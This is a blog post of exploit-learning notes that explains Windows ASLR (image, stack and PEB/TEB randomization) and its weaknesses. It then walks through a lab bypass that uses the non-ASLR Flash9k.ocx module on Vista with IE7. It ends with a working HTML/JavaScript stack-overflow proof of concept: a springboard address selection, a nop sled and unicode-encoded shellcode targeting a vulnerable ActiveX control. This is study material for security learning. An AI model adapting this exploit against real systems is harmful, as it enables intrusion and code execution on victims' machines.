

Source: [Moeomu's blog](/posts/exploit-learning-notes-017-aslr-introduction/)

## Introduction to ASLR techniques

> Throughout, all of the previously described vulnerability exploitation methods share a common feature: they all require the identification of a clear jump address. Whether it is a generic springboard instruction such as JMP ESP or the various instructions used by Ret2Libc, we need to determine the entry point of this instruction first. As the saying goes, Microsoft's ASLR (Address Space Layout Randomization) technology is a protection mechanism that interferes with shellcode positioning by no longer using a fixed base address to load the program
>
> In fact, the concept of ASLR has been introduced in the Windows XP era, but the ASLR function on XP is very limited, only a simple randomization of PEB and TEB, but no randomization of the module load base address, until Windows Vista appeared, ASLR really began to work!
>
> Similar to SafeSEH, ASLR implementation requires both program support and OS support, where program support is not required.

- Microsoft has added the `/dynamicbase` linking option since Visual Studio 2005 SP1 to help us with this task. We just need to enable the `/ddynmicbase` linking option when we compile the program, and the compiled program will support ASLR

### Image randomization

- Image randomization is the process of randomizing the virtual address of the PE file loaded when it is mapped to memory, this address is determined at system startup and will change after system reboot
- Probably for compatibility reasons, Microsoft has set a switch for image randomization in the system, which users can set by setting the registry key `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionM anager\MemoryManagement\ MoveImages` key to set the working mode of image randomization
  - When set to `0`, image randomization is disabled
  - When set to `-1`, randomizable images are forced to be processed with or without the `IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE` flag set
  - Normal mode of operation when set to other values, only images with the randomized processing flag are processed
  - If `MoveImages` does not exist in the registry, you can manually create a value with the name `MoveImages` and the type `DWORD` and set its value as needed

### Stack randomization

- This measure is to randomly select the base address of the stack when the program is running. The difference with image base randomization is that the base address of the stack is not determined when the system is started, but when the program is opened, which means that the base address of the stack is different for any two runs of the same program, and thus the location of each variable in memory is not determined.
- Compile the following program in VS2008, run it twice on XP and Vista, and get the following result

```cpp
int main()
{
  char* heap = (char *)malloc(100);
  char stack[100];
  printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x", heap, stack);
  getchar();

  return 0;
}
```


- As you can see, the heap addresses are far apart on Vista, while they are identical on XP

### Randomization of PEB and TEB

- Getting the TEB and PEB of the current process is simple, the TEB is stored at `FS:0` and `FS:[0x18]` and the PEB is stored at the TEB offset `0x30`, you can get the TEB and PEB of the current process by the following code

```cpp
int main()
{
    unsigned int teb;
    unsigned int peb;

    __asm
    {
        mov eax, FS:[0x18]
        mov teb, eax
        mov eax, dword ptr[eax+0x30]
        mov peb, eax
    }
    printf("PEB:%#x\nTEB:%#x", peb, teb);
    getchar();

    return 0;
}
```

- Test run on Vista, the results are as shown



- As you can see, the result is very poor, the PEB address is only randomized by one byte, and it is still very regular, the TEB is basically unchanged

### Defects of ASLR

- It is not difficult to see that when ASLR randomizes the image, although the module load base address has changed, but the entry point of each module's lower two bytes will not change, for example: the original base address: `0x00401234`, after randomization the base address becomes: `0x67291234`, so you can use this to attack it

## Attack the module without ASLR enabled

### Preparation

> Experimental environment: Windows Vista SP0, IE7, Adobe Flash Player 9.0.124

- Although the book requires the use of version 9.0.262, but I really can not find it, so I will use 9.0.124 instead, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe)
- The vulnerable OCX control has already been compiled in the previous experiment, so use that one, [click here to download](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH.ocx), this control ctrl class object id: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### Steps

- Reboot the system to see the ASLR module enabled


- Experimental control is not enabled GS
- Load POC page and Flash9k.ocx via IE7
- There is a stack overflow vulnerability in the function test, which aims to overwrite the return address of the function
- Because Flash9k.ocx is not ASLR enabled, the load base address is fixed, so you can search for a suitable springboard instruction inside to jump to shellcode
- IE7's DEP is turned off, so the impact of DEP is not considered
- Since the attack is achieved by overwriting the return address of the function, the best springboard instruction is JMP ESP
- `0x301D606B` is also `JMP ESP`, which will jump to the head of the string after execution, but the problem is that the four bytes of `6B 60 1D 30` constitute exactly one line of assembly instruction `imul esp,dword ptr ds:[eax+0x1D],0x30`, which will multiply the last two operands and subsequently put them into the first operand So it needs to keep the value of `[eax+0x1D]` correct, and currently eax is not pointing to a valid address, so it needs to fix eax
- Unfortunately, there is no suitable instruction for fixing eax, so change the address
- `0x303911D3` is also `JMP ESP`, but the assembly code it consists of will read both EC and EAX, so both registers need to be repaired, not feasible, change instruction
- `JMP ESP` is not available, use `JMP ESI` instead, address `0x3000DCD2` contains 0, directly excluded, address `0x302420C3` the last byte is retn, can not be used, excluded, address `0x3028EE6E` assembly code will directly cause an exception, excluded, this instruction is also no longer suitable, so look for other suitable instruction
- The `CALL ESP` at address `0x300942F2` seems to be suitable, it will also increase the esp by 8 bytes to avoid the garbage data.
- Here is the shellcode after the change

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var s = "\u9090";

	while (s.length < 54)
	{
		s += "\u9090";
	}

	s += "\u42F2\u3009";
	s += "\u9090\u9090";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>

</body>
</html>
```

- As shown in the picture, reboot the system, the shellcode runs normally, which means the attack on ASLR is successful


